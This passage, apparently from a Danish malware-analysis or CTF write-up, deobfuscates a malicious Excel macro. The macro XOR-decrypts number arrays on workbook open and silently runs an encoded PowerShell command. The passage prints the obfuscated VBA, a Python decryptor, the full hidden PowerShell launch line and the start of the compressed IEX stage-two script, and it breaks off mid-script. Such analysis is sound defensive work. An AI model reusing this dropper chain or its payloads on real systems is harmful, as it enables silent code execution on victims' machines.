    6, 91, 3, 74, 22, 24, 71, 11, 30, 98, 25, 9, 89, 28, 62, 73, 29, 91, 11, 13, 4, 109, 30, 49, 96, 53, 96, 118, 28, 114, 106, 62, 101, 127, 63, 127, 108, 32, 91, 33, 104, 104, 36, 111, 66, 40, 101, 43, 125, 123, 44, 113, 93, 23, 84, 69, 19, 87, 74, 5, 104, 27, 102, 66, 23, 85, 66, 13, 77, 2, 109, 89, 0, 69, 91, 33, 113, 95, 122, 93, 87, 41, 88, 22, 165, 171, 135, 175, 172, 134, 171, 236, 174, 160, 139, 179, 165, 224, 161, 165, _
    199, 180, 137, 225, 183, 205, 163, 173, 220, 181, 129, 233, 181, 156, 184, 163, 210, 154, 151, 214, 140, 147, 215, 165, 132, 216, 165, 217, 156, 162, 220, 151, 186, 192, 155, 195, 148, 185, 196, 152, 163, 207, 142, 157, 203, 139, 146, 238, 208, 176, 134, 234, 178, 237, 234, 163, 229, 186, 212, 225, 183, 249, 227, 154, 201, 247, 211, 245, 253, 167, 240, 179, 237, 243, 220, 247, 244, 187, 243, 141, 224, 200, 165, 219, 205, 148, 201, 209, 175, 207, 181, 153, 195, 135, 219, 229, 146, 222, 218, 129, _
    221, 179, 208, 210, 172, 193, 238, 142, 218, 195, 143, 207, 10, 112, 8, 113, 56, 14, 116, 11, 36, 120, 42, 123, 40, 21, 124, 35, 45, 100, 10, 53, 97, 43, 58, 125, 24, 104, 41, 50, 103, 61, 50, 122, 13, 82, 51, 9, 82, 63, 11, 119, 23, 12, 64, 13, 6, 91, 8, 72, 21, 27, 116, 31, 17, 101, 27, 83, 14, 16, 90, 3, 19, 49, 17, 14, 49, 100, 30, 49, 100, 35, 115, 120, 58, 102, 105, 57, 102, 45, 104, 118, 34, 105, 68, 38, 125, 85, 39, 85, _
    82, 40, 76, 41, 111, 5, 44, 103, 92, 16, 76, 19, 71, 71, 20, 77, 115, 28, 52, 77, 26, 75, 66, 6, 70, 0, 81, 90, 15, 77, 90, 10, 99, 9, 101, 81, 12, 60, 83, 42, 137, 164, 192, 165, 161, 243, 160, 248, 139, 163, 141, 167, 164, 201, 163, 223, 182, 184, 234, 171, 191, 210, 185, 164, 249, 188, 128, 233, 188, 227, 171, 149, 228, 141, 253, 209, 142, 197, 128, 174, 218, 146, 132, 222, 132, 143, 223, 169, 170, 192, 165, 193, 136, 136, 196, 128, 162, 200, 149, 203, _
    159, 131, 204, 139, 237, 180, 213, 229, 183, 209, 234, 165, 200, 184, 200, 226, 188, 152, 226, 158, 203, 161, 195, 249, 161, 253, 251, 129, 193, 252, 163, 253, 246, 157, 248, 142, 213, 203, 135, 207, 207, 189, 203, 135, 248, 192, 181, 211, 199, 190, 193, 210, 183, 215, 175, 129, 215, 161, 195, 212, 188, 214, 218, 137, 214, 171, 216, 199, 114, 58, 58, 118, 46, 43, 119, 58, 36, 120, 6, 121, 48, 32, 124, 0, 60, 96, 4, 99, 52, 70, 100, 60, 19, 111, 65, 61, 104, 29, 50, 99, _
    22, 80, 37, 10, 81, 5, 10, 119, 51, 89, 121, 1, 88, 108, 3, 72, 15, 20, 113, 21, 31, 109, 16, 103, 43, 19, 64, 23, 20, 75, 19, 107, 64, 104, 58, 123, 109, 36, 105, 119, 57, 108, 115, 57, 108, 78, 123, 105, 34, 126, 108, 33, 127, 7, 112, 93, 58, 98, 120, 46, 117, 81, 47, 91, 92, 16, 83, 17, 88, 88, 20, 80, 84, 24, 75, 27, 76, 97, 28, 66, 77, 7, 76, 85, 1, 101, 90, 9, 104, 11, 62, 82, 12, 40, 82, 40, 155, 241, 147, 169, _
    244, 159, 171, 248, 183, 175, 201, 173, 162, 255, 168, 235, 147, 187, 209, 191, 190, 158, 187, 234, 152, 176, 195, 163, 181, 145, 177, 154, 193, 132, 158, 209, 139, 223, 147, 149, 202, 134, 189, 217, 136, 209, 136, 165, 210, 138, 142, 198, 157, 230, 199, 156, 178, 200, 183, 201, 141, 237, 204, 176, 252, 176, 255, 179, 235, 231, 180, 236, 245, 191, 240, 237, 180, 231, 226, 157, 230, 160, 208, 250, 162, 140, 250, 134, 229, 170, 203, 241, 168, 245, 243, 185, 223, 196, 182, 197, 205, 185, 192, 155, _
    251, 195, 156, 199, 198, 139, 195, 143, 224, 216, 183, 203, 223, 241, 217, 197, 137, 220, 238, 137, 220, 155, 203, 194, 68, 46, 21, 113, 43, 117, 32, 39, 106, 49, 22, 126, 33, 43, 127, 36, 60, 96, 23, 97, 38, 44, 100, 40, 36, 104, 66, 107, 61, 39, 108, 42, 43, 87, 10, 5, 83, 118, 10, 77, 56, 88, 40, 2, 90, 17, 2, 125, 13, 66, 26, 25, 66, 47, 27, 91, 7, 31, 60, 29, 21, 97, 24, 93, 101, 107, 11, 111, 110, 59, 107, 37, 126, 96, 51, 115, _
    99, 18, 97, 97, 33, 119, 79, 33, 112, 82, 99, 106, 12, 118, 91, 41, 119, 41, 120, 110, 18, 90, 91, 22, 79, 58, 23, 90, 84, 24, 66, 25, 95, 84, 28, 73, 92, 3, 110, 3, 82, 35, 120)

    Dim rvbBsaocxY
    rvbBsaocxY = eomTXCGRBY(rVNKPsoBFf)

    Dim owrEdYzuPv
    owrEdYzuPv = "wA87rTUqwSvghh1="

    Dim gUQflbAGiD
    gUQflbAGiD = LmFoIUDMcS & KsyHAFlamj & OsgwuQFZez & rvbBsaocxY

    Dim qzErxDIifZ
    Set qzErxDIifZ = CreateObject("WScript.Shell")
    qzErxDIifZ.Run gUQflbAGiD, 0, True
End Sub
```

Undervejs sættes flere variable til tekst, der ligner base64 encoding.
Det decoder dog ikke til noget brugbart, og de variable bruges aldrig igen.
Der er også et par loops undervejs, der heller ingen effekt har - begge dele virker til bare at være for at forvirre, og dette kan blot fjernes.

Vi har kun to funktioner - én der automatisk kaldes, når regnearket åbnes (`Workbook_Open()`) samt en lille funktion i toppen, der umiddelbart tager et array som input og itererer over - sandsynligvis noget dekryptering.

I starten af `Workbook_Open()` eksekveres `Call vyFDKiXajP.VkruolavHp`, dvs. funktionen fra vores lille key module køres, og nøglen sættes globalt.
Vi kan se, den bruges oppe i det, der formodes at være dekrypteringsfunktionen.

Undervejs i funktionen initialiseres fire arrays med tal, og umiddelbart efter kaldes dekrypteringsfunktionen med dem som input. Sidst ses:

```vba
Dim gUQflbAGiD
gUQflbAGiD = LmFoIUDMcS & KsyHAFlamj & OsgwuQFZez & rvbBsaocxY

Dim qzErxDIifZ
Set qzErxDIifZ = CreateObject("WScript.Shell")
qzErxDIifZ.Run gUQflbAGiD, 0, True
```

Altså concatenates de fire decodede arrays, et `WScript.Shell` objekt oprettes, og funktionen `Run` køres med det samlede decryptede resultat som input.
Dvs. der køres en shell command, og kommandoen er tilsyneladende det, der er encrypted henover fire arrays.

Lad os tage et hurtigt kig på dekrypteringsfunktionen:

```vba
Function eomTXCGRBY(UCujrNVIMF As Variant)
    Dim yoKdYtvnNV As String

    Dim qpNzDVxiKR
    For qpNzDVxiKR = 0 To UBound(UCujrNVIMF)
        yoKdYtvnNV = yoKdYtvnNV + Chr((UCujrNVIMF(qpNzDVxiKR) Xor Asc(Mid(uVbUlFfmHv, (qpNzDVxiKR Mod Len(uVbUlFfmHv)) + 1, 1)) Xor qpNzDVxiKR) Mod 256)
    Next qpNzDVxiKR

    eomTXCGRBY = yoKdYtvnNV
End Function
```

Den initialiserer en ny tom streng og itererer over elementerne i sin array parameter.
Hvert element XORes med en key byte (roterende key) og med nuværende indeks, før det hele tages modulo 256 for at komme ned på én byte igen.

Omdøber og reducerer vi lidt, får vi nu det samlede mere overskuelige script:

```vba
Public key As String

Public Sub setkey()
    key = "l4ng0gm3g3th3mm3l1gk3y"
End Sub

Function decrypt(arr As Variant)
    Dim pt As String

    For i = 0 To UBound(arr)
        pt = pt + Chr(
            (arr(i) Xor Asc(Mid(key, (i Mod Len(key)) + 1, 1)) Xor i) Mod 256
        )
    Next i

    decrypt = pt
End Function

Private Sub Workbook_Open()
    Call other_module.setkey

    arr1 = Array(28, 90, ..., 69, 95)
    pt1 = decrypt(arr1)

    arr2 = Array(40, 100, ..., 100, 92)
    pt2 = decrypt(arr2)

    arr3 = Array(58, 116, ..., 82, 77)
    pt3 = decrypt(arr3)

    arr4 = Array(61, 119, ..., 35, 120)
    pt4 = decrypt(arr4)

    cmd = pt1 & pt2 & pt3 & pt4

    Set wsh = CreateObject("WScript.Shell")
    wsh.Run cmd, 0, True
End Sub
```

Næste step er at få decrypted de fire dele af kommandoen på samme måde som scriptet, og her er der typisk to gode veje frem:

1. Emuler dekrypteringskoden i et mere velkendt sprog som Python
2. Kør originalscriptet med debug info (mere usikkert)

Første metode er helt ufarlig, men kræver man forstår originalkoden helt og får den implementeret rigtigt selv.
Fordelen ved anden metode er, man ikke selv skal forstå koden indgående først, og at det præcis er originalkoden, der også køres.
Det er dog langt mere usikkert og bør kun gøres i et lab setup i en VM. Har man det sat op, er det dog tit den nemmeste måde at analysere obfuskerede scripts.
Fremgangsmåden er at finde de steder, hvor noget eksekveres og så erstatte disse steder med et print i stedet, fx kald til `iex` i PowerShell eller som her til `wsh.Run`.

Så, vi kan fjerne de to linjer i bunden, der opretter og eksekverer kommandoen og erstatte dem med `Print cmd` i LibreOffice eller `Debug.Print cmd` i Excel.
Kører vi nu programmet, vil det selv decrypte kommandoen for os og printe den til skærmen.

Alternativt kan vi emulere decryption koden i Python:

```py
def decrypt(arr):
    key = b"l4ng0gm3g3th3mm3l1gk3y"
    pt = []
    for i, x in enumerate(arr):
        d = (x ^ key[i % len(key)] ^ i) % 256
        pt.append(d)
    return bytes(pt).decode()
```

De fire arrays kan nu trækkes ud, og hver del af kommandoen decryptes. Bemærk at hvert array indeholder en række underscores.
Dette er blot måden at fortsætte et udtryk på næste linje i VBS og er nødvendigt, da linjer har en maksimum længde. Disse underscores skal selvfølgelig bare fjernes, når man laver dem til Python lists.

Uanset metode finder vi frem til følgende kommando:

```console
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -e LgAoACAAJABwAHMAaABvAG0ARQBbADQAXQArACQAcABzAGgAbwBNAGUAWwAzADQAXQArACcAWAAnACkAIAAoACAATgBlAFcALQBvAGIASgBlAEMAdAAgACAAaQBPAC4AcwBUAFIAZQBhAE0AUgBlAGEAZABFAFIAKAAoACAATgBlAFcALQBvAGIASgBlAEMAdAAgACAAaQBvAC4AYwBvAG0AUABSAEUAcwBzAGkATwBuAC4AZABlAGYATABhAFQAZQBzAFQAcgBlAEEAbQAoAFsAcwBZAFMAVABFAG0ALgBpAE8ALgBNAEUAbQBvAFIAWQBTAFQAcgBFAEEATQBdACAAWwBzAHkAcwBUAEUATQAuAEMAbwBOAHYARQBSAHQAXQA6ADoARgBSAG8ATQBiAGEAcwBlADYANABTAFQAcgBpAG4ARwAoACAAJwBkAFYAWAA3AGIAKwBJADQARQBQADYAOQBVAHYAOABIAEsAKwByAFYAUgBEAGcAbwBUAHgASgA2AE8AdQBrAG8ANQBGAGkAMABGAEMAcABlAFYAVgBWAFYAYwBnAGoAZQBiAGIAWQBwAFkAVQBOAG8AaQA3AGoAOAA3AHoAZgBqADgAQQBpAG8AVgA0AG4AYQBuAGgAbgBQADQANQB0AHYASABIAEoAZABVAGIAWgBtAHYAagBYAHkAcgBaADQAcgAyAGcAOABhAEIAYgBOAFkAVQBFAFkAegBiAFIAcQBrAHMASQA0AEUAVgBZAG4AVwBEADkANABFAEEAYwB1ADkARwBhAEYAMwBvAEcAdAA5AGoARgBBADUARABlAEkAMQBhAEoALwBHAG0ANgBWADQAQgBpAE0AcgBMADMAcwBrAHQATgArAGgARABNAFEANgB5AHEAVABBAGgANwB1AEwATQBKAGwASABWAEcAVgBuADQAVwB1AGcAcQBtAFgAaQBjAHcAeQByAGYAMQBmAG8AQwB5AFUAQgA3AFcAYQBFADgAaABWAFYAVgBmAFYAUABRAHEANwBQAFkAaABIADAAWABVADQALwBnAGcAMABlAFIAdQBVAFMAOQBOADAATgA2AFIAQQB6ADgAZAB1AFQAdABBAGQAcgB2ADUAWABNAHkAKwBYAE0ATgBwAGwANABlAG4ANwArAHUAMgBKADUAegBIAEcAWQBhAHoARABEAFkASwA3AEgATABKADIANQBEAHIATQBkAFoAcwBKAFIAWgAvAFUANgBjACsAcgBNAHIATwA4AE0AZABHAGIAVQBXAGQAMQBqAEwAagBNADkATgBQAEoAZwBZADcATQBHADIARABHAHYARABsAHEAdwBhAGwAaABvAFkAMwBzAGcAUQByAG4ATwBiAE4AaQBCAEoALwBCAHQAMgArAEMAagBnAFIAYQBXAEkAVQAwAGQAagBHAFcANAByAE4ANwBBAFEAQwBBADAAZABBAC8AUABMAGoATQBzAEsAWABmAFEAcABtAEUAdwBFAHoAeQBaAGUATgBHAEUAeABGAHgAbQBtAGUAQQBJAC8ATABuAFMASAAyAGcAYwA5AEcAeABCAEkATQBOAFYAMQBjAHUATAA2AHcASQBKAFMAMgBKAG4AUwB1AGgASABJAGcATQBVAFoATgBQADMASgBOAEMAbQBYAHoAVwBmACsAaAB2AFEAZgBTADkAaABWAFMARwAxAEMAdgAzAFoAQgBVAGwARgBtAFQAYQBWAHEAcABKAEcAOABLADgANQBVADYAcABGAGUALwBlAHQAcAB3ADgAcgB1AFAAawBHAHYANQA1AC8AMAA0AEkAMgBFAHIAVwBtAHYARABkADUAYgArADAAcgBOAHoAZgBLAGUAcwB6AC8AOABaAFIAYQBFAGMAcgBjADkALwBTAFUAQQBaAGwAQQBGADcAZgBBAEQATgByAEIAOQBtAFkAVQBYAEgAUgA1AGYAegBwADQARgBVAHAARgA2AGIAZQBzAHIAYQBLAFMASwBqAG0AMgB6ADAAQwB3AEcAdwBDAGMAagBsAEEAZABUAGwANQB4AGMAcABnAEQATQBJAFAAQQBRAEsAaABzAHEAUQBNAFQAdwA1AFQAZwBPADYAYgBFAFQAeQA0ADIAVwBoAHEARwBYAGkAegBGAFgAWABTAGgAdQA0AGYATABqAGkAVwAzAGoAbwBVAFoAawBNAHAANQBKAFkAVABPAFkAbQBSAGMAeAB4ADkAcgA3AHcAWABRAFQAYwBBAE0AUQBHAHMAQgBYAEIAKwByAE4AdwBVAGgAYgBmAFkAQQBVAHEATAArAEwAeAA2AEUARgBoAGgAMABKAE0AOQB2AE4AeABLAEEAQgBaADgAbQBFAG8AQgBjAHcAZgBiACsAUwBOAEkAaQB2AEoAVQBmADgAVQBmADgAMABpAGkAQQBXADAAVgAzAEIAUQA3AEoANgBYAGoAUQBxAE4AUgBWAEgAWQBiAHMAYQBoAHYAbABSAEkAcwB6ADIASQBnACsARAAzAGsAeQBGAHoAQQB1AGMAVgA1AFQAWQBwAC8AMwBPADkAbQBMAFUAdABoAFUAcQB5AHIAWgBYAGwANABRACsARQBQAEwARgBrAC8AYQBNAEYAZAA4AEcATwBkAFAAVgA5AHQAdQAvAGsAegArAEEAcgBrAFAASABnAFoAdAA3AHMAOABuAFIANwBrADIAKwA0AFIAYwByADcAYQB2AFgARAB5AGkARABNAEwAOQBBAGMAZgB2AGUASQBRAGcAMwBGAC8AOAB6AEwANABwAHoANQBjAFgAZQBVAEgAYQA4AHIAUQBEAFcAZgBkAE0AeABWAHIATwBKADkAMwBPAFQAOABwAEgANQBPAEoAdgB5AFcAaQBNAEwAUgBqAEMANwA2ADQAYgBUAG4AQgBkAE4ATwBIAGYALwBQAEcATQB6AHoAdgBXADcAWQBhAGoARwAwAHYARQBNAHkAMQA4AGcAVQAyADcAbQA0AG0AMwBvAG4ATQBIAEsANABoAFYAZABFAGMAKwBPADEAUAAwAEcAZAB6ADIAQgBOAEMAYwAwAFkALwBWAEgAVgBvAGoAMgBRAE0AZQBUAHkAVABaAEoAMABWAHoAbABRADQAWABmAE0AeABYADIAVABCAGEAZABKAFEASwBnAEwAYwBJACsAWQBDADMAQgBXACsAdgBoADcAMgA4AE4ASwB2AG0AbwBZAHIAOQBwAEgANAA5AHAAaQBjAEYAdAA5AGQAWQBMAEMAWgAvAEgAegB6AEcAZwA2AEIAVQA1AEsANQBFAHEAMAB5AHQAdwA2AHQAdwBlAEMASQBKAGYAUgBBAHoAZgBIAFEAeABwAFAAaQA5AEYAaABJADgAOQBmAGkAZwBTADUAcwB1AHcAdgBpAGUANABGAFEASwBEAGYAYQB2AEcARwBlAFMAUgB0AEQASgA5AGcAWQBTADQAOQAxAHcAegBZAGMAOABmAGcASAA0AHgAVABBAG4ALwA1AEkAeQBxAHgARQA2ADkAQgBKAFMAVgBvAFkAZABPAHkAeABpAEUAYwBxACsANABwAE0AKwBtAEcARwBBAFgANQBMADMARwBNAEQALwBYAEEAYQBMACsAWAAyAGEATABFAFcAYQBiAFUAZwA1AHAAZgBLAGUAWQBnAHUAUwBSAFMAWQBXAGUAQgAxAHUAQQBxAGIAbgA0AFgAZQB6AE0AZAB2AEYAMgBvADkARwAvAE0AWABYAFQAeABhADgAUgBEAGgAVwBZAGQAbwB0AEEAWAByAHMAawA1ADAAWAB5AEUAcgBtAEEAQwA2AHYAbQBEAEwANgAxAHYAWgBmAHcAaABLACsAUQAvAEYAYgBGAHMAVABvAEcAdQBZAGEATQBuAHcAUQBSAC8AVAB1AGUAWABNAFQARAAzAGgAegBqAG0AUQBBADIASwA0AFAAZQBWAHUANwAxAC8AagBrAHEALwB4AEwAaABKAGsATQBwAGMAbwA2AFQAbABBAFEAawBpAHUAZwBCADUAMAAyACsAQgBvAC8AbwAvAFQAbwBIAGsAbABVAFkAQwBlAGgAZwA0ADgAKwBMAFgASABTADIAZABkAHEAbABzAG8ARgB5ADgAOQBsAFMAcwA4AG8ASQBsAFkAcgBIAEEAegBKAEUAWABTAG0ANABSAGcAaQBNAGkAcQBVAHUAZQBMAGgATQBPAEwAMwA0AC8AdwAvACcAKQAsACAAWwBpAG8ALgBjAE8AbQBQAHIAZQBzAHMAaQBPAG4ALgBjAE8AbQBQAHIARQBTAHMAaQBvAE4AbQBvAGQARQBdADoAOgBEAGUAQwBvAG0AUAByAGUAUwBzACAAKQApACAALABbAFQARQB4AFQALgBFAG4AYwBvAEQAaQBOAEcAXQA6ADoAQQBzAGMASQBJACkAIAApAC4AUgBlAGEAZABUAE8AZQBOAGQAKAApAA==
```

Dvs. scriptet ville køre `powershell` på en lang base64 encoded kommando. En række flag er givet for så vidt muligt at undgå visuelle clues på, at noget er blevet kørt.
Vi base64-decoder kommandoen og decoder som UTF16-LE, da Windows strenge (inkl. encodede powershell commands) benytter denne encoding:

```py
from base64 import b64decode

encoded = "LgAoACAAJABwAHMAaABvAG0ARQBbADQAXQArACQAcABzAGgAbwBNAGUAWwAzADQAXQArACcAWAAnACkAIAAoACAATgBlAFcALQBvAGIASgBlAEMAdAAgACAAaQBPAC4AcwBUAFIAZQBhAE0AUgBlAGEAZABFAFIAKAAoACAATgBlAFcALQBvAGIASgBlAEMAdAAgACAAaQBvAC4AYwBvAG0AUABSAEUAcwBzAGkATwBuAC4AZABlAGYATABhAFQAZQBzAFQAcgBlAEEAbQAoAFsAcwBZAFMAVABFAG0ALgBpAE8ALgBNAEUAbQBvAFIAWQBTAFQAcgBFAEEATQBdACAAWwBzAHkAcwBUAEUATQAuAEMAbwBOAHYARQBSAHQAXQA6ADoARgBSAG8ATQBiAGEAcwBlADYANABTAFQAcgBpAG4ARwAoACAAJwBkAFYAWAA3AGIAKwBJADQARQBQADYAOQBVAHYAOABIAEsAKwByAFYAUgBEAGcAbwBUAHgASgA2AE8AdQBrAG8ANQBGAGkAMABGAEMAcABlAFYAVgBWAFYAYwBnAGoAZQBiAGIAWQBwAFkAVQBOAG8AaQA3AGoAOAA3AHoAZgBqADgAQQBpAG8AVgA0AG4AYQBuAGgAbgBQADQANQB0AHYASABIAEoAZABVAGIAWgBtAHYAagBYAHkAcgBaADQAcgAyAGcAOABhAEIAYgBOAFkAVQBFAFkAegBiAFIAcQBrAHMASQA0AEUAVgBZAG4AVwBEADkANABFAEEAYwB1ADkARwBhAEYAMwBvAEcAdAA5AGoARgBBADUARABlAEkAMQBhAEoALwBHAG0ANgBWADQAQgBpAE0AcgBMADMAcwBrAHQATgArAGgARABNAFEANgB5AHEAVABBAGgANwB1AEwATQBKAGwASABWAEcAVgBuADQAVwB1AGcAcQBtAFgAaQBjAHcAeQByAGYAMQBmAG8AQwB5AFUAQgA3AFcAYQBFADgAaABWAFYAVgBmAFYAUABRAHEANwBQAFkAaABIADAAWABVADQALwBnAGcAMABlAFIAdQBVAFMAOQBOADAATgA2AFIAQQB6ADgAZAB1AFQAdABBAGQAcgB2ADUAWABNAHkAKwBYAE0ATgBwAGwANABlAG4ANwArAHUAMgBKADUAegBIAEcAWQBhAHoARABEAFkASwA3AEgATABKADIANQBEAHIATQBkAFoAcwBKAFIAWgAvAFUANgBjACsAcgBNAHIATwA4AE0AZABHAGIAVQBXAGQAMQBqAEwAagBNADkATgBQAEoAZwBZADcATQBHADIARABHAHYARABsAHEAdwBhAGwAaABvAFkAMwBzAGcAUQByAG4ATwBiAE4AaQBCAEoALwBCAHQAMgArAEMAagBnAFIAYQBXAEkAVQAwAGQAagBHAFcANAByAE4ANwBBAFEAQwBBADAAZABBAC8AUABMAGoATQBzAEsAWABmAFEAcABtAEUAdwBFAHoAeQBaAGUATgBHAEUAeABGAHgAbQBtAGUAQQBJAC8ATABuAFMASAAyAGcAYwA5AEcAeABCAEkATQBOAFYAMQBjAHUATAA2AHcASQBKAFMAMgBKAG4AUwB1AGgASABJAGcATQBVAFoATgBQADMASgBOAEMAbQBYAHoAVwBmACsAaAB2AFEAZgBTADkAaABWAFMARwAxAEMAdgAzAFoAQgBVAGwARgBtAFQAYQBWAHEAcABKAEcAOABLADgANQBVADYAcABGAGUALwBlAHQAcAB3ADgAcgB1AFAAawBHAHYANQA1AC8AMAA0AEkAMgBFAHIAVwBtAHYARABkADUAYgArADAAcgBOAHoAZgBLAGUAcwB6AC8AOABaAFIAYQBFAGMAcgBjADkALwBTAFUAQQBaAGwAQQBGADcAZgBBAEQATgByAEIAOQBtAFkAVQBYAEgAUgA1AGYAegBwADQARgBVAHAARgA2AGIAZQBzAHIAYQBLAFMASwBqAG0AMgB6ADAAQwB3AEcAdwBDAGMAagBsAEEAZABUAGwANQB4AGMAcABnAEQATQBJAFAAQQBRAEsAaABzAHEAUQBNAFQAdwA1AFQAZwBPADYAYgBFAFQAeQA0ADIAVwBoAHEARwBYAGkAegBGAFgAWABTAGgAdQA0AGYATABqAGkAVwAzAGoAbwBVAFoAawBNAHAANQBKAFkAVABPAFkAbQBSAGMAeAB4ADkAcgA3AHcAWABRAFQAYwBBAE0AUQBHAHMAQgBYAEIAKwByAE4AdwBVAGgAYgBmAFkAQQBVAHEATAArAEwAeAA2AEUARgBoAGgAMABKAE0AOQB2AE4AeABLAEEAQgBaADgAbQBFAG8AQgBjAHcAZgBiACsAUwBOAEkAaQB2AEoAVQBmADgAVQBmADgAMABpAGkAQQBXADAAVgAzAEIAUQA3AEoANgBYAGoAUQBxAE4AUgBWAEgAWQBiAHMAYQBoAHYAbABSAEkAcwB6ADIASQBnACsARAAzAGsAeQBGAHoAQQB1AGMAVgA1AFQAWQBwAC8AMwBPADkAbQBMAFUAdABoAFUAcQB5AHIAWgBYAGwANABRACsARQBQAEwARgBrAC8AYQBNAEYAZAA4AEcATwBkAFAAVgA5AHQAdQAvAGsAegArAEEAcgBrAFAASABnAFoAdAA3AHMAOABuAFIANwBrADIAKwA0AFIAYwByADcAYQB2AFgARAB5AGkARABNAEwAOQBBAGMAZgB2AGUASQBRAGcAMwBGAC8AOAB6AEwANABwAHoANQBjAFgAZQBVAEgAYQA4AHIAUQBEAFcAZgBkAE0AeABWAHIATwBKADkAMwBPAFQAOABwAEgANQBPAEoAdgB5AFcAaQBNAEwAUgBqAEMANwA2ADQAYgBUAG4AQgBkAE4ATwBIAGYALwBQAEcATQB6AHoAdgBXADcAWQBhAGoARwAwAHYARQBNAHkAMQA4AGcAVQAyADcAbQA0AG0AMwBvAG4ATQBIAEsANABoAFYAZABFAGMAKwBPADEAUAAwAEcAZAB6ADIAQgBOAEMAYwAwAFkALwBWAEgAVgBvAGoAMgBRAE0AZQBUAHkAVABaAEoAMABWAHoAbABRADQAWABmAE0AeABYADIAVABCAGEAZABKAFEASwBnAEwAYwBJACsAWQBDADMAQgBXACsAdgBoADcAMgA4AE4ASwB2AG0AbwBZAHIAOQBwAEgANAA5AHAAaQBjAEYAdAA5AGQAWQBMAEMAWgAvAEgAegB6AEcAZwA2AEIAVQA1AEsANQBFAHEAMAB5AHQAdwA2AHQAdwBlAEMASQBKAGYAUgBBAHoAZgBIAFEAeABwAFAAaQA5AEYAaABJADgAOQBmAGkAZwBTADUAcwB1AHcAdgBpAGUANABGAFEASwBEAGYAYQB2AEcARwBlAFMAUgB0AEQASgA5AGcAWQBTADQAOQAxAHcAegBZAGMAOABmAGcASAA0AHgAVABBAG4ALwA1AEkAeQBxAHgARQA2ADkAQgBKAFMAVgBvAFkAZABPAHkAeABpAEUAYwBxACsANABwAE0AKwBtAEcARwBBAFgANQBMADMARwBNAEQALwBYAEEAYQBMACsAWAAyAGEATABFAFcAYQBiAFUAZwA1AHAAZgBLAGUAWQBnAHUAUwBSAFMAWQBXAGUAQgAxAHUAQQBxAGIAbgA0AFgAZQB6AE0AZAB2AEYAMgBvADkARwAvAE0AWABYAFQAeABhADgAUgBEAGgAVwBZAGQAbwB0AEEAWAByAHMAawA1ADAAWAB5AEUAcgBtAEEAQwA2AHYAbQBEAEwANgAxAHYAWgBmAHcAaABLACsAUQAvAEYAYgBGAHMAVABvAEcAdQBZAGEATQBuAHcAUQBSAC8AVAB1AGUAWABNAFQARAAzAGgAegBqAG0AUQBBADIASwA0AFAAZQBWAHUANwAxAC8AagBrAHEALwB4AEwAaABKAGsATQBwAGMAbwA2AFQAbABBAFEAawBpAHUAZwBCADUAMAAyACsAQgBvAC8AbwAvAFQAbwBIAGsAbABVAFkAQwBlAGgAZwA0ADgAKwBMAFgASABTADIAZABkAHEAbABzAG8ARgB5ADgAOQBsAFMAcwA4AG8ASQBsAFkAcgBIAEEAegBKAEUAWABTAG0ANABSAGcAaQBNAGkAcQBVAHUAZQBMAGgATQBPAEwAMwA0AC8AdwAvACcAKQAsACAAWwBpAG8ALgBjAE8AbQBQAHIAZQBzAHMAaQBPAG4ALgBjAE8AbQBQAHIARQBTAHMAaQBvAE4AbQBvAGQARQBdADoAOgBEAGUAQwBvAG0AUAByAGUAUwBzACAAKQApACAALABbAFQARQB4AFQALgBFAG4AYwBvAEQAaQBOAEcAXQA6ADoAQQBzAGMASQBJACkAIAApAC4AUgBlAGEAZABUAE8AZQBOAGQAKAApAA=="

decoded = b64decode(encoded).decode("utf-16-le")
print(decoded)
```
```ps1
.( $pshomE[4]+$pshoMe[34]+'X') ( NeW-obJeCt  iO.sTReaMReadER(( NeW-obJeCt  io.comPREssiOn.defLaTesTreAm([sYSTEm.iO.MEmoRYSTrEAM] [sysTEM.CoNvERt]::FRoMbase64STrinG( 'dVX7b+I4EP69Uv8HK+rVRDgoTxJ6Ouko5Fi0FCpeVVVVcgjebbYpYUNoi7j87zfj8AioV4nanhnP45tvHHJdUbZmvjXyrZ4r2g8aBbNYUEYzbRqksI4EVYnWD94EAcu9GaF3oGt9jFA5DeI1aJ/Gm6V4BiMrL3sktN+hDMQ6yqTAh7uLMJlHVGVn4WugqmXicwyrf1foCyUB7WaE8hVVVfVPQq7PYhH0XU4/gg0eRuUS9N0N6RAz8duTtAdrv5XMy+XMNpl4en7+u2J5zHGYazDDYK7HLJ25DrMdZsJRZ/U6c+rMrO8MdGbUWd1jLjM9NPJgY7MG2DGvDlqwalhoY3sgQrnObNiBJ/Bt2+CjgRaWIU0djGW4rN7AQCA0dA/PLjMsKXfQpmEwEzyZeNGExFxmmeAI/LnSH2gc9GxBIMNV1cuL6wIJS2JnSuhHIgMUZNP3JNCmXzWf+hvQfS9hVSG1Cv3ZBUlFmTaVqpJG8K85U6pFe/etpw8ruPkGv55/04I2ErWmvDd5b+0rNzfKesz/8ZRaEcrc9/SUAZlAF7fADNrB9mYUXHR5fzp4FUpF6besraKSKjm2z0CwGwCcjlAdTl5xcpgDMIPAQKhsqQMTw5TgO6bETy42WhqGXizFXXShu4fLjiW3joUZkMp5JYTOYmRcxx9r7wXQTcAMQGsBXB+rNwUhbfYAUqL+Lx6EFhh0JM9vNxKABZ8mEoBcwfb+SNIivJUf8Uf80iiAW0V3BQ7J6XjQqNRVHYbsahvlRIsz2Ig+D3kyFzAucV5TYp/3O9mLUthUqyrZXl4Q+EPLFk/aMFd8GOdPV9tu/kz+ArkPHgZt7s8nR7k2+4Rcr7avXDyiDML9AcfveIQg3F/8zL4pz5cXeUHa8rQDWfdMxVrOJ93OT8pH5OJvyWiMLRjC764bTnBdNOHf/PGMzzvW7YajG0vEMy18gU27m4m3onMHK4hVdEc+O1P0Gdz2BNCc0Y/VHVoj2QMeTyTZJ0VzlQ4XfMxX2TBadJQKgLcI+YC3BW+vh728NKvmoYr9pH49picFt9dYLCZ/HzzGg6BU5K5Eq0ytw6tweCIJfRAzfHQxpPi9FhI89figS5suwvie4FQKDfavGGeSRtDJ9gYS491wzYc8fgH4xTAn/5IyqxE69BJSVoYdOyxiEcq+4pM+mGGAX5L3GMD/XAaL+X2aLEWabUg5pfKeYguSRSYWeB1uAqbn4XezMdvF2o9G/MXXTxa8RDhWYdotAXrsk50XyErmAC6vmDL61vZfwhK+Q/FbFsToGuYaMnwQR/TueXMTD3hzjmQA2K4PeVu71/jkq/xLhJkMpco6TlAQkiugB502+Bo/o/ToHklUYCehg48+LXHS2ddqlsoFy89lSs8oIlYrHAzJEXSm4RgiMiqUueLhMOL34/w/'), 